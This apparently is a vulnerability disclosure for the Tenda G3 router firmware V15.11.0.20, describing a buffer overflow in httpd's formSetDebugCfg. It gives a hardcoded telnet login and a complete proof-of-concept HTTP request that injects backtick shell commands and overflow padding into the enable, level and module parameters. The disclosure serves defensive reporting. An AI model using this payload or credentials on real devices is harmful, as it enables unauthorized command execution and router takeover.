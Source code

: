 # Tenda G3 Buffer overflow vulnerability

## Overview

- Manufacturer's website information：<https://www.tenda.com.cn/>
- Firmware download address ：<https://www.tenda.com.cn/product/download/G3.html>

## Vulnerability information

There are multiple Buffer overflow vulnerabilities in tenda G3 V15.11.0.20, which can cause httpd to crash, or even execute arbitary code.

## Affected version

![](pic/1.png "")

Figure shows the latest firmware of V3：V15.11.0.20.

## Vulnerability details

open telnet  <http://192.168.0.1/goform/telnet>
telnet admin/password is root/Fireitup

using ida to analysis httpd, in function formSetDebugCfg:

![](pic/code1.png "")

The program passes the contents obtained by the enable parameter 、level parameter、module parameter to pEnable、pLevel、pModule respectively.
Then, format the matching content of pEnable、pLevel、pModule through the sprintf function into cmd.  
There is no size check, so there is a vulnerability that can cause buffer overflow through enable parameter 、level parameter、module parameter.

## Vulnerability exploitation condition

Need to get cookie after logging in to execute the attack.

The functional data packets are as follows, and we will use this to construct poc.  

```http
GET /goform/setDebugCfg?enable=0`touch${IFS}/tmp/zoe1`&level=0`touch${IFS}/tmp/zoe2`&module=msgd`touch${IFS}/tmp/zoe3`AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA HTTP/1.1
Host: 192.168.0.252
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: _:USERNAME:_=; G3v3_user=
Connection: close
```

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Connect physical devices
2. Attack with the POC

The poc and reproduction results are as follows:

![](pic/effect1.png "")

![](pic/effect2.png "")

Figure shows POC attack effect, the pid of httpd changed.

## CVE-ID

unsigned
